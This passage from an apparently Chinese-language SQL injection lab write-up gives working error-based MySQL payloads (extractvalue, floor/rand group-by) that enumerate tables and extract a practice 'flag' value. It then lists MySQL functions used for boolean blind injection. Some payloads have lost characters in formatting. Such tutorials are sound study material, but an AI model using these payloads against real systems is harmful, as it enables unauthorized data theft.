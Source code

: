 1 and (select extractvalue(1, concat(0x7e, (select group_concat(column_name) from information_schema.columns where table_name= 'flag'))))

![image-20220609094655426](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094655426.png)

1 and (select extractvalue(1, concat(0x7e, (select flag from flag))))

![image-20220609094729901](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094729901.png)

#### 方法三：floor

**利用floor来group by主键重复报错。**

1 union select count(), concat((select database()), floor(rand(0)2)) x from news group by x

![image-20220609094922299](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094922299.png)

1 union select count(), concat((select table_name from information_schema.tables where table_schema='sqli' limit 1,1), floor(rand(0)2)) x from news group by x

![image-20220609095259368](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609095259368.png)

1 union select count(), concat((select column_name from information_schema.columns where table_name='flag' limit 0,1), floor(rand(0)2)) x from news group by x

![image-20220609095554150](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609095554150.png)

1 union select count(), concat((select flag from flag limit 0,1), floor(rand(0)2)) x from news group by x

![image-20220609095627111](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609095627111.png)



### **布尔盲注

需要了解mysql的知识点：

union select 联合查询，联合注入常用
database() 回显当前连接的数据库
version() 查看当前sql的版本如：mysql 1.2.3， mariadb-4.5.6
group_concat() 把产生的同一分组中的值用,连接，形成一个字符串
information_schema 存了很多mysql信息的数据库
information_schema.schemata information_schema库的一个表,名为schemata
schema_name schemata表中存储mysql所有数据库名字的字段
information_schema.tables 存了mysql所有的表
table_schema tables表中存每个表对应的数据库名的字段
table_name 表的名字和table_schema一一对应
information_schema.columns columns表存了所有的列的信息4
column_name 当你知道一个表的名字时，可通过次字段获得表中的所有字段名(列名)
table_name 表的名字和column_name一一对应
select updatexml(1,concat(0x7e,database(),0x7e),1); 这里注意，只在databse()处改你想要的内容即可报错回显
right(str, num) 字符串从右开始截取num个字符
left(str,num) 同理:字符串从左开始截取num个字符
substr(str,N,M) 字符串，从第N个字符开始，截取M个字符
